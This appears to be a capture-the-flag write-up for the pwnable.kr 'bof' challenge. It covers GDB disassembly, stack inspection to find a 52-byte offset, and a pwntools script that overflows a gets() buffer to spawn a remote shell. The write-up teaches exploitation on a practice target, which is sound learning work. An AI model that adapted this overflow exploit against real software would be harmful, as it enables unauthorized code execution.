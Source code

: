 # bof

1. Download the files:

    ```bash
    wget http://pwnable.kr/bin/bof
    wget http://pwnable.kr/bin/bof.c
    ```

2. `cat bof.c` : observing the source code tells us that the program accepts a string input, using which we have to overflow the buffer to alter the value of key `0xdeadbeef`.
3. Using **GDB**:

    ```bash
    gdb ./bof
    ```

    Breakpoint at main and disassemble func():

    ```gdb
    Reading symbols from ./bof...
    (No debugging symbols found in ./bof)
    (gdb) break main 
    Breakpoint 1 at 0x68d
    (gdb) r
    Starting program: /home/harshit/Downloads/bof 
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, 0x5655568d in main ()
    (gdb) disas func
    Dump of assembler code for function func:
    0x5655562c <+0>:    push   %ebp
    0x5655562d <+1>:    mov    %esp,%ebp
    0x5655562f <+3>:    sub    $0x48,%esp
    0x56555632 <+6>:    mov    %gs:0x14,%eax
    0x56555638 <+12>:   mov    %eax,-0xc(%ebp)
    0x5655563b <+15>:   xor    %eax,%eax
    0x5655563d <+17>:   movl   $0x5655578c,(%esp)
    0x56555644 <+24>:   call   0xf7de9140 <puts>
    0x56555649 <+29>:   lea    -0x2c(%ebp),%eax
    0x5655564c <+32>:   mov    %eax,(%esp)
    0x5655564f <+35>:   call   0xf7de8660 <gets>
    0x56555654 <+40>:   cmpl   $0xcafebabe,0x8(%ebp)
    0x5655565b <+47>:   jne    0x5655566b <func+63>
    0x5655565d <+49>:   movl   $0x5655579b,(%esp)
    0x56555664 <+56>:   call   0xf7dc1430 <system>
    0x56555669 <+61>:   jmp    0x56555677 <func+75>
    .
    .
    .
    .
    ```

4. We see `cmpl` instruction, comparing the key with `0xcafebabe` at addr `0x56555654`. Break there and observe the stack memory:

    ```gdb
    (gdb) break *0x56555654
    Breakpoint 2 at 0x56555654
    (gdb) c
    Continuing.
    overflow me : 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

    Breakpoint 2, 0x56555654 in func ()
    (gdb) x/100x $sp
    0xffffcf60: 0xffffcf7c  0xffffd21b  0x00000002  0x0000001c
    0xffffcf70: 0xf7ffcfe8  0x00000018  0x00000000  0x61616161
    0xffffcf80: 0x61616161  0x61616161  0x61616161  0x61616161
    0xffffcf90: 0x61616161  0x61616161  0x61616161  0x61616161
    0xffffcfa0: 0x61616161  0xf7d80061  0xffffcfc8  0x5655569f
    0xffffcfb0: 0xdeadbeef  0x00000000  0x00000000  0x00000000
    0xffffcfc0: 0x00000000  0x00000000  0x00000000  0xf7d95cb9
    0xffffcfd0: 0x00000001  0xffffd084  0xffffd08c  0xffffcff0
    0xffffcfe0: 0xf7fa1e34  0x5655568a  0x00000001  0xffffd084
    0xffffcff0: 0xf7fa1e34  0x565556b0  0xf7ffcb60  0x00000000

    ```

    Wee see `0xdeadbeef` at `0xffffcfb0` and start of our input at the last column of `0xffffcf70`. So we have to overflow `(1+3*4)*4 = 52` bytes before writing `0xcafebabe`

5. Using pwntools:

    ```python
    from pwn import *

    payload = b'a' * 52 + b'\xbe\xba\xfe\xca'
    shell = remote('pwnable.kr',9000)
    shell.send(payload)
    shell.interactive()
    ```

    This spawns a shell (see `system("/bin/sh")` in `bof.c`)

    ```shell
    [+] Opening connection to pwnable.kr on port 9000: Done
    [*] Switching to interactive mode
    $ ls
    $ ls
    bof
    bof.c
    flag
    log
    super.pl
    $ cat flag
    ```
